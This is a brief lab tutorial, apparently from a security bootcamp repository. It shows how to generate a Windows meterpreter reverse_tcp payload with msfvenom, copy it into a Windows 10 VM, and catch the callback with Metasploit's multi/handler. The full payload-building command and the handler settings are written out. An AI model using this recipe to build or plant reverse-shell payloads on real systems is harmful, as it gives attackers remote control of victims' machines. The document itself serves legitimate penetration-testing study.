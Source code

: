 ## msfvenom:
- msfvenom is a command-line tool in Metasploit.
- Used to create custom payloads for exploiting vulnerabilities in target systems.
- It allows you to generate various types of payloads, such as reverse shells or malicious files, which can be used for penetration testing or attacks.
- `Syntex: msfvenom -p <payload> <options> -f <format> -o <output_file>`

- ![image](https://github.com/IOxCyber/ZtoM_Bootcamp/assets/40174034/224a9deb-f7af-4b84-b35d-728ad3a2c787)

- msfvenom Path `/usr/bin`

## Steps to create a basic Payload:
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP-of-Local-VM> LPORT=<Listening-Port-Local-VM> -f <file type eg. exe> -o <Output File Name eg. payload.exe>`
- After running it in the terminal, One .exe file will be obtained.
- Since, the Target VM isn't vulnerable in this example hence, this `.exe` file needs to be `transferred from the Local VM to Target VM by any means.`
- In this case of Virtual Box, a shared folder can be used to transfer the `.exe` file to Target `Windows 10 VM.`

- After transferring, use `exploit(multi/handler)` & set the options `LHOST=<IP-of-Local-VM>` `LPORT=<Listening-Port-Local-VM>` `Payload: windows/x64/meterpreter/reverse_tcp`
- ![image](https://github.com/IOxCyber/ZtoM_Bootcamp/assets/40174034/36967cb6-f760-4bdc-922e-c7335bb69bae)
> Run the `exploit(multi/handler)` before running the Payload in Target VM.
- Run the `.exe` file in the `Windows 10 VM` (Nothing will happen there)


 
